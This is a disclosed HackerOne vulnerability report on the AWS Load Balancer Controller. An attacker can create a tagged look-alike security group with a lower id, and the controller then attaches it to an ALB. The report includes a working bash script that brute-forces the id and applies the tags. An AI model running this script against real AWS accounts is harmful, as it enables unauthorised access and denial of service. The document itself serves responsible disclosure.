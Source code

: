 # AWS Load Balancer Controller Managed Security Groups can be replaced by an unprivileged attacker

## Report Details
- **Report ID**: 1238017
- **URL**: https://hackerone.com/reports/1238017
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-19T05:28:34.928Z
- **Disclosed**: 2022-06-02T00:49:52.513Z

## Reporter
- **Username**: t0rr3sp3dr0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Report Submission Form

## Summary:
When creating an Ingress of class `alb`, by default, AWS Load Balancer Controller creates a managed SG and attaches it to the created ALB. This SG limits which ports of the ALB are accessible by whom.

An attacker is able to craft another SG that can be used to trick AWS Load Balancer Controller into changing the SG attached to an ALB. This is possible even though the attacker doesn't have permission to modify the ALB or the managed SG and also doesn't have access to the K8s cluster where the Ingress was created.

AWS Load Balancer Controller uses tree tags to associate a SG on AWS to the supposed managed SG created for an ALB: `elbv2.k8s.aws/cluster`, `ingress.k8s.aws/stack`, and `ingress.k8s.aws/resource`. When there are multiple SGs that match the expected tag values, the controller attaches the first one returned by the AWS SDK to the ALB and deletes the other ones. The API call returns SGs sorted by their respective ids.

If a SG is created with the tags expected by AWS Load Balancer Controller and its id is less than the one from the legit SG, the controller deletes the original SG and attaches the one created by the attacker to the ALB. An attacker is now able to manipulate SG rules for the ALB as they please.  

## Kubernetes Version:
version.Info{Major:"1", Minor:"20+", GitVersion:"v1.20.4-eks-6b7464", GitCommit:"6b746440c04cb81db4426842b4ae65c3f7035e53", GitTreeState:"clean", BuildDate:"2021-03-19T19:33:03Z", GoVersion:"go1.15.8", Compiler:"gc", Platform:"linux/amd64"}

## Component Version:
AWS Load Balancer Controller v2.2.0

## Steps To Reproduce:

1. A developer creates an application, deploys it to K8s, and exposes it using an Ingress with class `alb`.
```bash
kubectl apply -f https://raw.githubusercontent.com/kubernetes-sigs/aws-alb-ingress-controller/v1.1.9/docs/examples/echoservice/echoserver-namespace.yaml
kubectl apply -f https://raw.githubusercontent.com/kubernetes-sigs/aws-alb-ingress-controller/v1.1.9/docs/examples/echoservice/echoserver-service.yaml
kubectl apply -f https://raw.githubusercontent.com/kubernetes-sigs/aws-alb-ingress-controller/v1.1.9/docs/examples/echoservice/echoserver-deployment.yaml
kubectl apply -f https://raw.githubusercontent.com/kubernetes-sigs/aws-alb-ingress-controller/v1.1.9/docs/examples/echoservice/echoserver-ingress.yaml
```

2. An attacker crafts an evil-twin of the managed SG attached to the target ALB. The attacker either knows the cluster name, namespace, and name of the Ingress related to the target ALB, or it needs to be able to describe the load balancer and its security group to acquire this information. If the id of the managed SG is unknown, the attacker may assume that its value is as low as `sg-00800000000000000` and create a SG that has an id even lower, covering more than 96% of the possible security groups with a couple of minutes of brute-forcing.
```bash
VPC_ID=vpc-00123456789abcdef
CLUSTER_NAME=kind
NAMESPACED_NAME=echoserver/echoserver

MANAGED_SG_ID=sg-00123456789abcdef
MANAGED_SG_10=$(echo ${MANAGED_SG_ID} | awk '{ print "ibase=16;" toupper(substr($0,4)) }' | bc)

while true
do
	UNMANAGED_SG_ID=$(aws ec2 create-security-group --description unmanaged-sg --group-name unmanaged-sg --vpc-id ${VPC_ID} | jq -r .GroupId)
	UNMANAGED_SG_10=$(echo ${UNMANAGED_SG_ID} | awk '{ print "ibase=16;" toupper(substr($0,4)) }' | bc)

	if [ ${UNMANAGED_SG_10} -lt ${MANAGED_SG_10} ]
	then
		break
	fi

	aws ec2 delete-security-group --group-id ${UNMANAGED_SG_ID}
done

aws ec2 create-tags --resources ${UNMANAGED_SG_ID} --tags "Key=elbv2.k8s.aws/cluster,Value=${CLUSTER_NAME}" "Key=ingress.k8s.aws/stack,Value=${NAMESPACED_NAME}" "Key=ingress.k8s.aws/resource,Value=ManagedLBSecurityGroup"
```

3. With the environment set, the attacker now should wait or somehow cause AWS Load Balancer Controller to reconcile the target load balancer. The reconciliation is normally triggered when the Ingress resource is modified or when the Pod of the controller restarts or is recreated, like when the Node where the controller was running is drained on a downscale procedure. Without another exploit or with a higher privilege on the account, user interaction is required.

4. After reconciliation, the load balancer has the malicious security group attached instead of the managed one that was created by the controller. The attacker modifies the SG rules and either gains access to the service or causes a denial of service.

## Impact

The attacker has access to all ports of the targeted ALB and can possibly gain access to sensitive data from the service behind the load balancer or make calls that would cause some problem. It is also capable of blocking access of legitimate clients to the service, causing a denial of service.

## Attachments
No attachments

